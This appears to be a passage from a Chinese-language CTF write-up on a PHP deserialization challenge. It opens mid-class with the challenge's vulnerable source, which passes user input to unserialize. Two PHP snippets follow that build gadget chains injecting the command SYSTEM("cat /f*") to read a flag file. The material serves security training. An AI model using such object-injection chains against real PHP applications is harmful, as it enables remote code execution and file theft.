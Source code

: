 ```php
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>
```



构造反序列化字符串

```php
$nisa = new NISA;
$nisa->txw4ever = "SYSTEM(\"cat /f*\");";
$nisa->fun = "test";
$love = new Ilovetxw;
$love->su = $nisa;
$four = new four;
$four->a = $love;
$love->huang = $four;
$tian = new TianXiWei;
$tian->ext = $love;

echo serialize($tian);
```



更简单的方法，__wakeup 模仿方法中，有一个 if($this->fun=="show_me_flag") 若比较，如果 $this-fun 为一个对象，将会调用这个对象那个的`__tostring` 魔法函数。

构造反序列化字符串

```php
$nisa = new NISA;
$nisa->txw4ever = "SYSTEM(\"cat /f*\");";

$love = new Ilovetxw;
$love->su = $nisa;

$nisa->fun = $love;

echo serialize($nisa);
```



